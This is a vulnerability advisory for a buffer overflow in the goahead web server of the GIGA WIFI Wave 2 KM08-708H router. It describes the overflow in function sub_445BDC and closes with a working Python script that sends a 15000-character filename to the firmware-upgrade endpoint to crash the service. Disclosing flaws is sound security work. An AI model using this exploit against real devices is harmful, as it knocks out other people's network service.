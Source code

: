 Affected Versions:

GIGA WIFI Wave 2 - KM08-708H

Vulnerability Description:

There is a buffer overflow vulnerability in the `sub_445BDC()` function within the `/usr/sbin/goahead` program. After being filtered, the parameter `a1` is assigned to `v27` and subsequently passed to `v72` through a `sprintf` concatenation. Since both `a1` and `v27` are controllable, and `v72` has a length of 9464, the concatenation with the `sprintf` function can cause a buffer overflow. This eventually leads to a segmentation fault, rendering the service inaccessible.

![Pasted image 20240817150107](https://github.com/user-attachments/assets/a6faa647-1913-429c-af83-9987272c34aa)

![Pasted image 20240820131730](https://github.com/user-attachments/assets/3e6cd32f-6573-40b6-bb56-b5a505cb6093)

![Pasted image 20240820131427](https://github.com/user-attachments/assets/8fd83cfc-7f5d-441e-971e-a4933ff678d1)

![Pasted image 20240820132046](https://github.com/user-attachments/assets/b847af8c-eb43-4a9c-9d4d-8270acbaa424)

![Pasted image 20240820131659](https://github.com/user-attachments/assets/06852ebd-ebd5-4ca0-9def-d520fd775532)

Buffer Overflow Result:

![Pasted image 20240827111357](https://github.com/user-attachments/assets/1813e36e-91ee-4073-bb25-38888223722a)

EXP：

```
import requests

def make_request(filename_value):
    url = "http://172.30.1.254:8899/goform/mcr_setFwUpgrade"
    params = {
        "filename": filename_value,
        "upgradeType": "1"
    }

    headers = {
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Referer": "http://172.30.1.254:8899/new/UserFolder/main.asp",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "zh,en-US;q=0.9,en;q=0.8",
        "Cookie": "MCRSESSIONID=B40B76FCC9FBE74B5F7511631B53504F3A8B767FD92B01882ACCAF1298AEC529",
        "Connection": "close"
    }

    response = requests.get(url, headers=headers, params=params)
    return response.text

# Construct a filename with 15000 'A' characters
filename_value = 'A' * 15000
print(make_request(filename_value))

```



